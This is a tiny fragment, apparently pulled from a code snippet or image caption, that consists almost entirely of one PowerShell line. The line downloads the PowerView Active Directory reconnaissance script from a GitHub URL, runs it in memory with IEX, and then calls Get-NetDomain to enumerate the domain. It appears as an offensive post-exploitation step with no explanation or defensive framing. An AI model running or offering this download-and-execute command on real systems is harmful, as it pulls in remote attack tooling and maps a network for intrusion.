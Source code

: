 IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/0xBrAinsTorM/TempFiles/refs/heads/main/PowerView.ps1'); $m = Get-NetDomain; $m
